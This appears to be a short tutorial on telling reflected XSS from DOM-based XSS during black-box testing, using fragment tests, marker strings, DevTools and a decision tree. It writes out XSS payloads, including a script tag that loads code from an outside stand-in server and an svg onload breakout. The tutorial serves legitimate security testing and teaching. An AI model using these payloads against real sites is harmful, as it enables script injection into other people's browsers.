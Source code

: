 > 🕵️‍♂️ "If I input a payload into a URL, and I see a popup... how can I tell whether it's Reflected XSS or DOM-Based XSS **without digging into request/response details**?"

### ✅ TL;DR:

> **You can’t *always* tell just from the output (like an alert).**
> But there are smart tricks you can use to **infer** whether it's reflected or DOM-based — even in black-box testing — **before opening DevTools**.

---

## 🔍 Heuristics to Tell the Type (Without Looking at Requests Yet)

Here are the practical strategies:

---

### 🔸1. **Change the URL Fragment (`#`) Only**

Try this:

```
https://victim.com/page#<script>alert(1)</script>
```

* **If the XSS fires**, it’s **DOM-based**, because:

  * The **`#fragment` is never sent to the server**.
  * Only JavaScript running in the browser can read it.

✅ So this is a clean trick: **If XSS works with only a hash**, it's **DOM XSS.**

---

### 🔸2. **Inject with a Unique Marker (e.g. `XSS123`)**

Use:

```
https://victim.com/page?q=XSS123
```

Then search the **raw HTML source** (`Ctrl+U` or View Source):

* If you **see `XSS123` in the page source**, then it's **reflected by the server** → **Reflected XSS**.
* If not, but it still appears in the rendered DOM, then it’s likely **inserted by client-side JavaScript** → **DOM XSS**.

---

### 🔸3. **Use a Time Delay or External Payload**

Try this payload:

```html
<script src="https://your-server.com/xss.js"></script>
```

* If your server logs a hit (even before you interact with the page), it suggests the **server embedded your script tag** → **Reflected XSS**.
* If the hit only comes after the page renders and JS runs → could be **DOM-based**.

---

### 🔸4. **Use Browser DevTools to Observe Live DOM Manipulation**

You said *without inspecting requests*, but if you open DevTools:

* Look at **Network → Doc** and check the **initial HTML**.
* Then compare it to the **live DOM (Elements tab)**.
* If payload is not in the HTML response but appears in DOM → DOM-based XSS.

---

### ✅ Quick Decision Tree

```plaintext
             +-- Does payload work in #fragment? --> Yes --> DOM XSS
             |
User input --+
             |
             +-- Is payload in raw HTML source? --> Yes --> Reflected XSS
                                               --> No  --> Probably DOM XSS
```

---

## 🧪 Final Tip: Use Custom Payloads That Break Differently

Try:

```html
"><svg/onload=alert(1)>
```

Some payloads might be **sanitized by the server but not JS**, or vice versa — different behavior gives clues.


